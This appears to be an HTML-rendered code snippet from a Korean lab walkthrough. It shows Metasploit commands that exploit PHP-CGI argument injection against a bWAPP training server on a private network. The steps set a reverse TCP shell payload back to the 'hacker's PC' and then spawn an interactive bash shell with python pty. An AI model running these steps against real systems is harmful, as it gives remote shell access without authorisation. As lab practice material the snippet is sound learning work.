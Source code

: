 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#308ce5">2</span>&nbsp;부터&nbsp;순차적으로&nbsp;진행</div><div style="padding:0 6px; white-space:pre; line-height:130%">msfconsole&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>q</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">search&nbsp;php_cgi</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">use&nbsp;exploit<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>multi<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>http<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>php_cgi_arg_injection&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">set</span>&nbsp;rhost&nbsp;<span style="color:#308ce5">192.</span><span style="color:#308ce5">168.</span><span style="color:#308ce5">56.</span><span style="color:#308ce5">105</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span>타깃서버IP</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">set</span>&nbsp;targeturi&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>bWAPP<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>admin<span style="color:#0086b3"></span><span style="color:#ff3399">/</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">set</span>&nbsp;payload&nbsp;generic<span style="color:#0086b3"></span><span style="color:#ff3399">/</span>shell_reverse_tcp</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#0099cc">set</span>&nbsp;lhost&nbsp;<span style="color:#308ce5">192.</span><span style="color:#308ce5">168.</span><span style="color:#308ce5">56.</span><span style="color:#308ce5">104</span>&nbsp;&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span>본인즉&nbsp;해커의PC&nbsp;IP</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">exploit</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">python&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>c&nbsp;<span style="color:#993333">'import&nbsp;pty;pty.spawn("/bin/bash")'</span>&nbsp;</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>
